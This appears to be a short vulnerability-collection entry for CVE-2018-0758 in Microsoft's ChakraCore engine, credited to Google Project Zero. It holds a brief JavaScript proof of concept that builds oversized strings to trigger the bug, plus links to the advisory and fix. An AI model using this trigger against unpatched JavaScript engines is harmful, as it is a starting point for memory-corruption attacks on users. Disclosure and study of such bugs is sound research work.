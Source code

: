 # CVE-2018-0758

- Fix: Jan 2018
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
let a = '';
let b = 'A'.repeat(0x10000);
for (let i = 0; i < 0x10000; i++) {
    a = 'BBBBBBBBB' + a + b;
}

print(a.length);
print(b.length);
print(a[0]);
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2018-0758)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1380)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/4db0bd20ac5f5a4e260653a10269fef9ef51f91f)